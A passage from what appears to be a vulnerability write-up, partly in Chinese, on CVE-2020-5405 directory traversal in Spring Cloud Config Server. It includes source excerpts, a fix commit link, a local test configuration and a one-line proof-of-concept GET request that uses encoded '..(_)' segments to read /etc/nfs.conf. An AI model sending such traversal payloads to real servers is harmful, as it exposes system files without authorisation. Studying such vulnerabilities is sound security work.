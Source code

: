 ```
    return uri;
}

org.springframework.cloud.config.server.resource.GenericResourceRepository
public synchronized Resource findOne(String application, String profile, String label,String path) {
    String[] locations = this.service.getLocations(application, profile, label).getLocations();
    try {
	for (int i = locations.length; i-- > 0;) {
	String location = locations[i];  // location为远程git地址下载到本地的tmp目录地址
	for (String local : getProfilePaths(profile, path)) {
	    Resource file = this.resourceLoader.getResource(location).createRelative(local); // tmp目录地址和label后的内容拼接
	    if (file.exists() && file.isReadable()) {
		return file;
	    }
	}
    }
}
```
#### CVE-2020-5405 Directory Traversal
Affected Version: < 2.2.2 or 2.1.7

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/651f458919c40ef9a5e93e7d76bf98575910fad0

POC:
```
GET /1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/nfs.conf
```
Conf:（本地）
```
info:
  component: Config Server
spring:
  application:
    name: configserver
  autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
  jmx:
    default_domain: cloud.config.server
  profiles:
    active: native
  cloud:
    config:
      server:
        native:
          search-locations:
            - file:///Users/xxx/Downloads/environment/Spring/spring-cloud-config-2.2.1.RELEASE_cve_2020_5405/spring-cloud-config-server/config
```
Factor:
```
org.springframework.cloud.config.server.resource.ResourceController
@RequestMapping("/{name}/{profile}/{label}/**")
public String retrieve(...){
    String path = getFilePath(request, name, profile, label);  // -> decodeAndCleanUriString()
    return retrieve(name, profile, label, path, resolvePlaceholders); // -> findOne()
}

synchronized String retrieve(ServletWebRequest request, String name, String profile, String label, String path, boolean resolvePlaceholders) throws IOException {
    name = resolveName(name);
    label = resolveLabel(label); // -> replace (_) -> /
```